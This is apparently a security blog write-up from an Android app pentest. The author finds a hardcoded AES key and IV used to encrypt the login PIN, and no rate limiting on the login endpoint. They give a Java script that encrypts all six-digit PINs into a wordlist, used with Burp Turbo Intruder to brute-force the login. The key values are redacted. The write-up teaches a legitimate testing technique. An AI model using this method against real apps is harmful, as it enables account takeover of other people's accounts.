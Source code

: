 ```yaml
---
title: "Android App Pentesting - Hardcoded Encryption Key + No Rate Limiting Lead to Account Takeover"
date: 2020-9-10T20:15:13+07:00
categories:
  - blog
tags:
  - pentest
  - writeup
  - burpsuite
  - hardcoded-key
---
```


So while pentesting an Android application (lets just call it App A), I stumble upon an unlimited login attempt trial -- which was only consist of a phone number and a **six digit** PIN number.. 

At first I thought that this was a really "juicy" target to bruteforce, but that thought immediately disappear once I see the request. 

Request
![request](/assets/images/writeup-1/req.png)

The request is a JSON object consist of fcmToken, phoneNumber, and a pin number which is somehow looks absolutely different from what I sent from the login screen.

My first guess was that the pin parameter is encoded in Base 64 (notice the "==" at the end), but as I decoding it into plain text, it turns out to be gibberish bytes-like text.

```
>>> import base64
>>> base64.b64decode("JTuPDh122ItijR3aw989lg==")
b'%;\x8f\x0e\x1dv\xd8\x8bb\x8d\x1d\xda\xc3\xdf=\x96'
```

My next step was to guess how the pin parameter is getting encrypted. Since the app wasn't obfuscated by either Proguard/Dexguard and I was able to decompile and gain a pretty clear view of the source code, I begin by inspecting the LoginActivity -- which of course responsible for handling the login activity.

LoginActivity.java
```
        final String str2 = "0" + this.phoneNumber.getText().toString();
        final String obj = this.pin.getText().toString();
        LoginRequest loginRequest = new LoginRequest(str2, AES.AES256Encrypt(obj), str);
```


It turns out that the pin number is passed into AES256Encrypt method, and -- you guess it from the title -- the key is hardcoded into the method itself.

AES256Encrypt.java
```
    public static String AES256Encrypt(String str) {
        String str2;
        try {
            str2 = Base64.encodeToString(encrypt("<REDACTED>".getBytes("UTF-8"), "<REDACTED>".getBytes("UTF-8"), str.getBytes("UTF-8")), 0);
        } catch (Exception e) {
            PrintStream printStream = System.err;
            printStream.println("Encrypted Err: " + e.getMessage());
            str2 = e.getMessage();
        }
        return str2.replaceAll("\\n", "");
    }    return str2.replaceAll("\\n", "");
```
As you see, there are two  \<REDACTED> parameter in the code above, the first is **Initialization Vector**, and the other is **Encryption/Secret Key** itself.

Refering to the code above, I was able to make a script that encrypts the number in range of 100000-999999 to be then used as wordlist for bruteforcing. 

pin.java
```
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import java.util.Base64;
import java.io.PrintStream;
import javax.crypto.spec.IvParameterSpec;
import java.io.UnsupportedEncodingException;
import java.security.InvalidAlgorithmParameterException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import javax.crypto.BadPaddingException;
import javax.crypto.IllegalBlockSizeException;
import java.io.BufferedWriter;
import java.io.FileWriter;
    
public class Encrypt {
  public static byte[] encrypt(byte[] bArr, byte[] bArr2, byte[] bArr3) throws UnsupportedEncodingException, NoSuchAlgorithmException, NoSuchPaddingException, InvalidKeyException, InvalidAlgorithmParameterException, IllegalBlockSizeException, BadPaddingException {
      IvParameterSpec ivParameterSpec = new IvParameterSpec(bArr);
      SecretKeySpec secretKeySpec = new SecretKeySpec(bArr2, "AES");
      Cipher instance = Cipher.getInstance("AES/CBC/PKCS5Padding");
      instance.init(1, secretKeySpec, ivParameterSpec);
      return instance.doFinal(bArr3);
  }

  public static String AES256Encrypt(String str) {
      String str2;
    try {
        str2 = Base64.getEncoder().encodeToString(encrypt("<REDACTED>".getBytes("UTF-8"), "<REDACTED>".getBytes("UTF-8"), str.getBytes("UTF-8")));
    } catch (Exception e) {
        PrintStream printStream = System.err;
        printStream.println("Encrypted Err: " + e.getMessage());
        str2 = e.getMessage();
    }
    return str2.replaceAll("\\n", "");
  }

  public static void main(String args[]) {
    for (int i = 100000; i <= 999999; i++){
        try {
            BufferedWriter writer = new BufferedWriter(new FileWriter("pin.txt", true));  
            writer.append(AES256Encrypt(String.valueOf(i)) + "\n");

            writer.close(); 
        } catch (Exception e){
            System.out.println(e);
        }
      } 
  }
}
```


Lastly, by using Burpsuite's Turbo Intruder and the wordlist generated from the script, I was able to gain access to my own account in relatively short amount of time :)

![intruder](/assets/images/writeup-1/intruder.png)

So remember whenever you find a parameter that doesn't look like what it is supposed to be, try to find and understand the logic behind it. If its encrypted or obfuscated, try to discover which part of the app is encrypting/obfuscating it, and in the case of encryption, there must be a key to encrypt it. 

For example, if the key is implemented over-the-air, you can obtain it by simply hooking the method using Frida, or if its hardcoded in the app, you can just refer to this post to decrypt it.

See ya :)